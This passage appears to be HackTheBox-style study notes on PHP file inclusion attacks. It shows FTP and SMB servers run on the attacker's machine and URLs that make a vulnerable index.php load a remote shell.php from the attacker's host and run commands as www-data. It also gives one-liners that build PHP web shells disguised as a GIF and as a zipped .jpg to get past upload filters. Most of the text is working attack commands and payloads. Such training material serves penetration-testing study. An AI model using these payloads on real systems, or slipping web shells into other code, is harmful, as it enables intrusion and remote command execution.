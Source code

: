 ## FTP
```shell-session
alakin2504@htb[/htb]$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```
As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```shell-session
alakin2504@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## SMB
```shell-session
alakin2504@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```


# LFI and File Uploads
## Image upload
```shell-session
alakin2504@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
## Zip Upload

```shell-session
alakin2504@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
